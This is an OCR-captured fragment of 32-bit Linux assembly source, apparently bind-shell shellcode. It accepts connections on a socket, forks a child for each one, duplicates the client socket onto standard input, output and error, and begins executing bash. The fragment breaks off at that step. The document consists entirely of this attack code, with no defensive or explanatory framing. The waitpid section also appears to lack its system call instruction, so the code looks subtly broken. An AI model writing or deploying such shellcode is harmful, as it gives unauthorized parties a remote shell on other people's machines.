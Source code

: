 ```nasm
	xor eax,eax
	mov al, 16
	push eax ; sockaddr_in length
	mov edx, esp ; store address of sockaddr_len
	sub esp, 16 ; allocate space for client sockaddr
	push edx ; address for sockaddr_len
	sub edx, 16
	push edx ; address for client sockaddr
	push esi ; socket file descriptor
	mov ecx, esp ; pointer to args
	xor ebx,ebx
	mov bl, 5 ; accept sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

	; avoid memory leak and we don't care about the client sockaddr anyways
	; also we won't process more than one connection at a time
	add esp,32

	; save the clientsocket
	mov edi,eax

	; fork to process the connection
	xor eax,eax
	mov al, 2
	int 0x80
	xor ebx,ebx ; get a 0 to compare against
	cmp eax,ebx ; compare with zero
	je child ; if fork return a zero, we are in the child process

	; call waitpid to prevent zombies
	xor edx,edx ; options
	sub esp,4 ; allocate space for return status
	mov ecx,esp
	mov ebx,eax ; child pid
	xor eax,eax
	mov al, 7 ; waitpid syscall
	add esp,4 ; restore stack from child exit status

	; infinite loop
	jmp handle_connections

; need an intermediate target, since my code is too long for a short jump
get_port:
	jmp get_port_2

child:
	; duplicate the file descriptors
	mov ebx,edi
	xor ecx,ecx
	xor eax,eax
	mov al, 63 ; dup2 syscall
	int 0x80 ; dup2(clientsock, 0)
	mov al, 63
	inc ecx
	int 0x80 ; dup2(clientsock, 1)
	mov al, 63
	inc ecx
	int 0x80 ; dup2(clientsock, 2)

	; execve the shell using stack method
 	; let's execute bash
	xor eax,eax
```